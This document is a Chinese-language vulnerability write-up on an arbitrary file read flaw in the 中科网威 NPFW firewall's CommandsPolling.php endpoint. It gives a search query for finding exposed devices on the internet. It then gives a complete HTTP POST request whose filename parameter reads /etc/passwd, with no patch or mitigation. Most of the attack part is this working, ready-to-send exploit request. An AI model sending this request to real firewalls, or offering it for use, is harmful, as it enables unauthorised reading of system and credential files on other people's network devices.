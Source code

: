 # 中科网威 NPFW防火墙 CommandsPolling.php 任意文件读取漏洞

## 漏洞描述

中科网威 NPFW防火墙 存在任意文件读取漏洞，由于代码过滤不足，可读取服务器任意文件

## 漏洞影响

```
中科网威 NPFW防火墙 
```

## 网络测绘

```
"中科网威" && "/direct"
```

## 漏洞复现

登录页面

![img](images/202202101852340.png)

发送请求包

```php
POST /direct/polling/CommandsPolling.php HTTP/1.1
Host: 
Cookie: PHPSESSID=014d2705856e1df139772db42ccbaf9f
Content-Length: 47
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

command=ping&filename=%2Fetc%2Fpasswd&cmdParam=
```

![img](images/202202101852498.png)